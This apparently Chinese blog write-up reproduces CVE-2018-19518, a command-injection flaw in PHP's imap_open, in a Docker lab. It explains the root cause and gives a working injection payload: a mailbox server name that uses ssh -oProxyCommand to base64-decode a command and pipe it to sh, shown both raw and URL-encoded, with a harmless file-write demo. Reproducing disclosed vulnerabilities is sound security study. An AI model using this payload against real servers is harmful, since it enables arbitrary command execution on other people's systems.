

# CVE-2018-19518 PHP imap_open 函数任意命令执行漏洞复现 - biiNG# - 博客园

> 原文：[`www.cnblogs.com/biing/p/13049730.html`](https://www.cnblogs.com/biing/p/13049730.html)

# CVE-2018-19518 PHP imap_open 函数任意命令执行漏洞复现

## 环境

靶机：ubuntu18.04，腾讯云服务器，IP 地址为 49.235.204.174

docker 中部署环境。

Firefox 以及插件 hackerbar

## 背景介绍

PHP 的 imap_open 函数中的漏洞可能允许经过身份验证的远程攻击者在目标系统上执行任意命令。该漏洞的存在是因为受影响的软件的 imap_open 函数在将邮箱名称传递给 rsh 或 ssh 命令之前没有正确地过滤邮箱名称。

如果启用了 rsh 和 ssh 功能并且 rsh 命令是 ssh 命令的符号链接，则攻击者可以通过向目标系统发送包含-oProxyCommand 参数的恶意 IMAP 服务器名称来利用此漏洞。

成功的攻击可能允许攻击者绕过其他禁用的 exec 受影响软件中的功能，攻击者可利用这些功能在目标系统上执行任意 shell 命令。

此外要求攻击者具有对目标系统的用户级访问权限。利用时没有很明显的回显效果。

## 漏洞成因

PHP 中调用 imap_open 可能如下：

`resource imap_open ( string $mailbox , string $username , string $password [, int $options = 0 [, int $n_retries = 0 [, array $params = NULL ]]] )`

参数 mailbox 是用来定义连接服务器的。

tcp_open 的工作原理和功能在 tcp_unix.c 中定义，可以参考：

`cat src/osdep/unix/tcp_unix.c`

其中，对于 ssh 和 rsh 的路径是这样定义的：

```
#ifdef SSHPATH                  / ssh path defined yet? /
  if (!sshpath) sshpath = cpystr (SSHPATH);
#endif
#ifdef RSHPATH                  / rsh path defined yet? /
  if (!rshpath) rshpath = cpystr (RSHPATH);
#endif 
```

也就是说没有 SSHPATH 的话就会尝试读取 RSHPATH。

对于帮助找到 SSHPATH 定义发生的位置的代码请参阅：

```
/imap-2007f/src/osdep/unix/env_unix.h
/imap-2007f/src/osdep/unix/env_unix.c 
```

默认情况是空的且无法控制，因为对/etc 目录没有写入权限。

接下来跳转到 RSHPATH。它在 Makefile 中。Makefile 的路径在/usr/bin/rsh 中。总来看 RSHPATH 的值都是/usr/bin/rsh

tcp_aopen()下

```
#endif
  if (service == '') {        /* want ssh? */
                                /* return immediately if ssh disabled */
    if (!(sshpath && (ti = sshtimeout))) return NIL;
                                /* ssh command prototype defined yet? */
    if (!sshcommand) sshcommand = cpystr ("%s %s -l %s exec /usr/sbin/r%sd");
  }
                                /* want rsh? */
  else if (rshpath && (ti = rshtimeout)) {
                                /* rsh command prototype defined yet? */
    if (!rshcommand) rshcommand = cpystr ("%s %s -l %s exec /usr/sbin/r%sd");
  }
  else return NIL;              /* rsh disabled */
                                /* look like domain literal? */ 
```

上述代码会生成一个指令，用于在远程服务器上执行 rimapd 二进制文件。

如果要查看回显，则要使用 strace 工具。详情不表。

`$server = "x -oProxyCommand=echo\tZWNobyAnMTIzNDU2Nzg5MCc+L3RtcC90ZXN0MDAwMQo=|base64\t-d|sh}";`

这个是有误的 servername。其中 x 是执行命令的参数之一。

我们 ssh 的一个 ProxyCommand，连接服务器的这样的一个命令具体说明如下

> ```
> ProxyCommand
> 指定用于连接服务器的命令。命令字符串扩展到行的末尾，并使用用户的 shell' exec'指令执行，以避免延迟的 shell 进程。
> ProxyCommand 接受 TOKENS 部分中描述的令牌的参数。该命令基本上可以是任何东西，并且应该从其标准输入读取并写入其标准输出。它应该最终连接在某台机器上运行的 sshd 服务器，或者在 sshd -i 某处执行。主机密钥管理将使用所连接主机的 HostName 完成（默认为用户键入的名称）。设置命令以 none 完全禁用此选项。请注意， CheckHostIP 无法与代理命令连接。
> 该指令与 nc 及其代理支持结合使用非常有用。例如，以下指令将通过 192.0.2.0 的 HTTP 代理连接：
> ProxyCommand /usr/bin/nc -X connect -x 192.0.2.0:8080 %h %p 
> ```

比如说使用这个命令

`ssh -oProxyCommand =“echo hello | tee / tmp / executed”localhost`

就会有命令回显：

```
root@kali:/tmp# ssh -oProxyCommand="echo hello|tee /tmp/executed" localhost
ssh_exchange_identification: Connection closed by remote host
root@kali:/tmp# cat /tmp/executed
hello
root@kali:/tmp# 
```

解析时还会有问题。要绕过斜杠和空格的转义。用$IFS 和\t 或者 base64 编码和相关命令再解码。如下

```
echo "echo hello|tee /tmp/executed"|base64
ehco ZWNobyBoZWxsb3x0ZWUgL3RtcC9leGVjdXRlZAo=|base64 -d|bash 
```

利用完成，文件创建成功。这些命令不是由 PHP 本身执行，而是由外部库执行.

## 复现与利用过程

### 安装环境

环境搭建利用 docker 来搭建。github 上有人做过相关的工作。我们在了解原理之后，直接利用即可。

[`github.com/ensimag-security/CVE-2018-19518`](https://github.com/ensimag-security/CVE-2018-19518)

git clone 下来后，用

`docker-compose up -d`

运行 docker 即可。

看一下 dockerfile 文件的内容。

```
FROM php:5.6.38-apache

RUN apt-get update \
    && apt-get install -y libc-client-dev libkrb5-dev ssh-client \
    && docker-php-ext-configure imap --with-kerberos --with-imap-ssl \
    && docker-php-ext-install imap 

EXPOSE 80 
```

用的是 php5.6，然后安装了一些 ssh 和 imap 的相关内容。

### 利用

运行起来后访问网页，效果如下。


试图使用这样的命令：`echo '1234567890'>/tmp/test0001`

hostname 中这样填写：

`x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}`

这是一段经过 url 编码的内容。其中 `ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d`是 base64 编码的结果。在设计漏洞时需要先 base64 编码，再 url 编码。（注意不能失去大小写）

之后`docker-compose exec app bash`进入 docker 的 bash 然后查看文件 `cat /tmp/test0001` ，发现已经创建了文件。


## 渗透等级

本漏洞利用是实现了任意命令执行。命令执行不是由 PHP，而是由系统库来执行（si_uid=0），相对比较危险。

这是网上找的一个图片。我这里 strace 运行不起来。

